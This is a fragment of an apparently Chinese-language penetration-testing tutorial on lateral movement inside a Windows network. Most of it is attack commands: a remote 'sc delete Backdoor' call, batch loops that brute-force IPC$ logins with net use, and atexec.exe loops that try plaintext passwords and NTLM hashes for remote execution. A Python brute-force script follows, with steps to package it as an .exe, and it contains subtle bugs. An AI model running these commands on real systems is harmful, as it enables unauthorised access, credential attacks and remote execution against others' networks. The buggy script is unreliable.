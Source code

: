 ```plain
sc \\192.168.1.131 delete Backdoor
```

### [批量利用脚本、工具进行爆破连接](#toc__2)

```plain
#批量检测 IP 对应明文连接
FOR /F %%i in (ips.txt) do net use \\%%i\ipc$ "admin!@#45" /user:administrator

#批量检测 IP 对应明文 回显版
FOR /F %%i in (ips.txt) do atexec.exe ./administrator:admin!@#45@%%i whoami

#批量检测明文对应 IP 回显版
FOR /F %%i in (pass.txt) do atexec.exe ./administrator:%%i@192.168.1.131 whoami

# 批量检测 HASH 对应 IP 回显版
FOR /F %%i in (hash.txt) do atexec.exe -hashes :%%i ./administrator@192.168.1.131 whoami
```

前期除了收集明文密码HASH等，还收集了用户名，用户名配合密码字典,用python打包成.exe可执行文件

```plain
pip install pyinstaller
pyinstaller -F fuck_neiwang_001.py
import os,time
ips = {

}
# net user /domain
users = {
    'Administrator',
    '7BOB',
    'uf9n1x'
    'webserver-2008'

}
passs = {

}

for ip in ips:
    for user in users:
        for mima in passs:
            exec = "net use \\" + ip + '\ipc$' + mima + ' /user:god\\' + user
            print('--->' + exec + '<---')
            os.system(exec)
            time.sleep(1)
```

[![img](assets/1702372821-dadca864fa7cff3e3395a48789d7ace7.png)](https://storage.tttang.com/media/attachment/2023/05/09/653b3593-d5d7-42e1-aed6-f30a98025ef0.png)